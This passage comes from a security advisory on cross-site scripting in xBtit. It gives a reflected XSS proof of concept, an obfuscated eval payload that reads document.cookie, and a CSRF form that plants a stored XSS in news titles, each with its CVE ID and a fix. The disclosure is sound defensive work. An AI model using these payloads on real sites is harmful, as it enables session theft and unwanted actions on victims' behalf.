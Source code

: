 ### Proof of Concept
```http
GET /index.php?page=signup&act=%22%3E%3Cimg%20src=x%20onerror=%22eval(/a~lert(do~cu~me~nt~.c~oo~k~ie)/.toString().replace(/~/g,%20%27%27).slice(1,-1))%22%3E%3C%22 HTTP/1.1
Host: xbtit.vm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: SMFCookie693=a%3A4%3A%7Bi%3A0%3Bi%3A1%3Bi%3A1%3Bs%3A40%3A%221250f6c7216825b4a231dc697393fc56e8921810%22%3Bi%3A2%3Bi%3A1723852786%3Bi%3A3%3Bi%3A0%3B%7D; uid=2; pass=b094c51fb1076fc241a300ba39c3de9e; xbtit=6nhrbuivfet70433goijpb7uof
Connection: close
Upgrade-Insecure-Requests: 1

```

### CVE-ID
CVE-2018-15678

### Solution
Update to the version that supersedes 2.5.4 or apply [This Patch](/assets/code/xbtit-multiple-vulnerabilities/xbtit.patch)

<hr>

## Stored XSS via CSRF in News
Due to a lack of cross-site request forgery protection, it is possible to automate the action of posting a new news item by luring an authenticated user to a web page that automatically submits a form on their behalf.

In addition to this, the title of the news items are vulnerable to stored cross-site scripting. By placing the JavaScript in the `onerror` event handler of an `<img />`, the JavaScript will be stored and executed every time the news item is viewed on `/index.php?page=viewnews`.

### Proof of Concept
```xml
<form action="http://xbtit.vm/index.php?page=news&act=confirm" method="post">
  <input type="text" name="action" value="add">
  <input type="text" name="id" value="">
  <input type="text" name="title" value="&lt;img src=x onerror=alert(1)&gt;">
  <input type="text" name="fontchange" value="">
  <input type="text" name="fontchange" value="">
  <input type="text" name="news" value="News content">
  <input type="text" name="conferma" value="Confirm">
  <input type="submit" value="Submit">
</form>
```

### CVE-ID
CVE-2018-15677
